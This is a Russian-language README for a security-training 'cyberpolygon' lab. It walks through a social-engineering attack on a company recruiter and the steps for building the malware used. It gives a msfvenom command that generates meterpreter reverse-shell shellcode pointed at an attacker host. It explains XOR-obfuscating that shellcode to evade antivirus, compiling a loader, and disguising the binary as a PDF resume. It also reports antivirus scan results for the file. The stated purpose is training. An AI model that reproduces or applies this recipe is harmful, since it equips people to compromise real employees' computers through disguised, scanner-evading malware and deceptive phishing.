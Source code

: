 # cyberpolygon
cyberpolygon for information security training

Добавить видео работы или в гиф превратить

### Для работы стенда необходимо ввести след команды

### Сценарий

## Что делает хакер

Хакер ищет себе жертву, которой в дальнейшем отправит вредоносный файл. С помощью социальной инженерии злоумышленник находит одну компанию на hh и звонит рекрутеру. Общаясь он рассказывает, как заинтересован в работе. После их разговора, хакер обещает прислать денису на почту резюме. 
На деле же вместо резюме лежит заархивированный вредоносный файл.

## что делает hr

Кадровик Денис заходит на почту и видит примерно следующее сообщение, которое оставил ему его телефонный собеседник: 

“Здравствуйте еще раз! я заинтересован в вашей работе. Вот мое резюме” 
Его впечатлил телефонный разговор и он бежит побыстрее посмотреть его резюме.

!!!!!!!!!!!!! 

Тем временем у атакующего включен meterpreter listener и он получает оболочку , тем самым имея возможность загрузить любые файлы и выполнить любой код. 

Чем он и пользуется, закидывая hr-ру файлик hacked.txt , в котором сообщается, что тот взломан

## Описание созданного вируса

Вирус состоит из 2-х файлов : hack.c , encoder_beautiful.c 

Создадим переменную массива беззнаковых символов с именем buf, которая содержит наш шелл-код вывод в формате C из msfvenom. Это в будущем поможет нам получить оболочку и выполнять любые команды на компьютере жертвы.

Чтобы избежать обнаружения сканерами, мы замаскируем исходную строку шелл-кода. Мы можем сделать это, создав программу-кодировщик (encoder_beautiful) для выполнения операции XOR с нашей полезной нагрузкой meterpreter.

Затем мы возьмем выходные данные нашего кодировщика и заменим полезную нагрузку нашей исходной оболочки C на запутанную версию, которую мы создали. И добавим декодер XOR в нашу исходную программу на C, чтобы деобфусцировать полезную нагрузку в памяти перед ее выполнением.

#### Порядок команд для получения готового вируса

Сгенерируем 64-битный незакодированный шеллкод с помощью msfvenom с типом вывода «c» на Kali след. командой : 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c 

Скопируем char buf[] и вставим это в программу encoder_beautiful.c

Скомпилируем командой gcc encoder_beautiful.c -o encoder_beautiful.elf

запустим ./encoder_beautiful.elf - теперь это надо скопировать

Затем мы вставим char buf[] в программу на C, которая будет действовать как оболочка для загрузки и запустит шеллкод.

Скомпилировать след. командой файл hack.c

Получен готовый вирус, который необходимо закинуть жертве. Попробуем переименовать его вместо hack.elf в resume_for_hr.pdf

Настроим прослушиватель:



Запустим:


И получаем оболочку:

Результаты сканирования антивирусных систем

Анализ сканирования касперским нашего вредоносного файла hack.elf показал следующий результат :

Анализ сканирования касперским нашего вредоносного файла resume.pdf показал следующий результат :

Результат сканирования написанного вируса на virustotal :


